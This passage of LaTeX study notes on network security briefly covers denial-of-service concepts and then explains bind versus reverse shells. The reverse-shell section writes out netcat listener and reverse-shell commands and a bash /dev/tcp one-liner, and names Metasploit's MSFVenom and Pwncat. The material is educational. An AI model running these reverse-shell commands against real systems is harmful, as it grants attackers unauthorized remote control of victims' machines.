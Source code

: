 There are other more direct types of DoS, namely an attacker cutting off the internet or even stealing hardware to prevent service. There are even types that are legal, and unavoidable such as the concept of company competition. If a rival company who offers a similar service opens, that is denying service in a very abstract sense.
The point being is that Denial of Service alone is a type of attack rather than an attack itself and should be considered in every facet of infrastructure and security development, rather than only in a single place.
\citep{AssignmentDOSPaper}


\section{Bind vs Reverse Shells}
A Bind/Remote shell is connecting from 'hacker' to victim and establishing a terminal session over IP. This is more of a backdoor, usually once initial compromise has already occurred. 
This activity usually seen by firewalls and can be ruined by change of ports, additionally DHCP and NAT cause IPs to change and as a result, the IP of the host, and therefore the listener is unknown.

A reverse shell is the inverse, the victim machine connecting the the 'hacker's' listener. This requires that some form of exploit is conducted, in order to run the arbitrary code required. This does mean passing an IP and port over the network, in order to establish a connection, however a combination of TLS and proxy chains could help avert this issue.

Netcat lets a threat actor set up connections between a host and a listener. There is the ability to also connect to any listener that is not nativity netcat based, which is referred to as banner grabbing, simply using nc on a IP port can do this. There are different implementations of netcat, such as nc and Nmap's ncat. \citep{Ncat} 

ncat -lvp 1234
nc 192.168.0.240 1234 -e cmd.exe or /bin/sh or whatever shell/program

Let’s say we have found a remote code execution (RCE) vulnerability on the target host. We can than issue the Netcat command with –e on the target host and initiate a reverse shell with Netcat to issue commands.

Alternate Tools \& One Liners:

\begin{tcblisting}{listing only}
bash -i >& /dev/tcp/<IP>/<port> 0>&1 - A one liner that can be injected into most UNIX systems to grant a shell.
MSFVenom - The Metasploit Framework payload creation tool, full of modules for different architectures that safe time so long as they are understood. 
Pwncat - A modern version of reverse shell technology, creates a C2 structure for better persistence, priv esc, stability, ease of use and control.
\end{tcblisting}

